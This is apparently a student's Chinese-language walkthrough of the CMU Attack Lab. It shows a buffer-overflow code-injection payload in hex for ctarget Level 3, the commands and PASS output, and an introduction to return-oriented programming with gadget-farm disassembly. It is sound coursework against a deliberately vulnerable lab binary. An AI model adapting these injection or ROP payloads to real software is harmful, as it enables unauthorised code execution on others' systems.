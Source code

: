 观察发现缓冲区被覆盖了，所以不能把Cookie的ASCII码放在缓冲区开头，可以放在0x5561dca8处的0x00401f24之后，有足够的空间存放，最终phase3.txt如下：

```
48 c7 c7 fa 97 b9 59 68 
fa 18 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
35 39 62 39 39 37 66 61 
78 dc 61 55 00 00 00 00 
09 00 00 00 00 00 00 00 
24 1f 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

使用如下命令测试，同时查看结果： 

```
./hex2raw < phase3.txt > phase3_input.txt
./ctarget -qi phase3_input.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 3030 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

Level 3通过。 

## Part II: Return-Oriented Programming

这一部分攻击rtarget程序，但是这个程序使用了两种技术防止代码注入攻击：

- 每次栈的位置是随机的，于是我们没有办法确定需要跳转的地址
- 即使我们能够找到规律注入代码，但是栈是不可执行的，一旦执行，则会遇到段错误

所以只能利用已有的可执行的代码，来完成我们的操作，称为`retrun-oriented programming(ROP)`，策略就是找到现存代码中的若干条指令，这些指令后面跟着指令ret，每次return相当于从一个gadget跳转到另一个gadget中，然后通过这样不断跳转来完成我们想要的操作。

### Level 1

这一关要求我们重复上一部分Level 2的攻击，但是无法对rtarget进行代码注入攻击，我们只能使用ROP攻击：利用farm.c中的程序的gadget，构造我们需要的指令，在rtarget中执行，farm段的反汇编代码在下面这一部分：

```
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   
……
0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```
